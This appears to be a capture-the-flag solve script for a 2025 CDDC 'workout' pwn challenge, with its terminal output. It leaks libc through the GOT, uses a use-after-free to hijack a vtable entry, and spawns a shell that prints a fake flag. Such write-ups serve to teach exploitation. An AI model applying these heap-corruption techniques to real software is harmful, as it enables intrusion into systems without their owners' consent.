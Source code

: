 ```py

delete_exercise(0)
new_exercise(b"aaaaaa" + p64(elf.got.setvbuf-0xa))
view_routine_details(1)

ru(b"[0] ")
libc.address = unpack(rl().strip(), "all")  - libc.sym.setvbuf
print(f"libc base @ {hex(libc.address)}")

# now i want a UAF on the second part of a routine

delete_exercise(0)
new_exercise(b"aaaaaa" + p64(memorymanager_base+0x40))
delete_exercise(2)
new_exercise(b"A"*6 + p64(0x4242424242424242) + p8(0x1))
delete_exercise(2)
new_exercise(b"A"*6 + p64(memorymanager_base+0xa0-8)) # write vtable pointer
delete_exercise(3)
new_exercise(b"A"*6 + p64(libc.address + 965765) + p8(0x1)) # write vtable entry to be called
remove_exercise_to_routine(0, 1)

p.interactive()

"""
❯ python3 solve.py
[*] '/mnt/sdb/CTF/2025/CDDC/Quals/pwn/workout/workout'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Starting local process '/mnt/sdb/CTF/2025/CDDC/Quals/pwn/workout/workout': pid 275476
100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 255/255 [00:00<00:00, 678.38it/s]
memory manager base @ 0x7faed2d73000
elf base @ 0x55b3fcdc9000
libc base @ 0x7faed2780000
[*] Switching to interactive mode
$ cat flag
CDDC2025{THIS_IS_A_FAKE_FLAG}
"""
```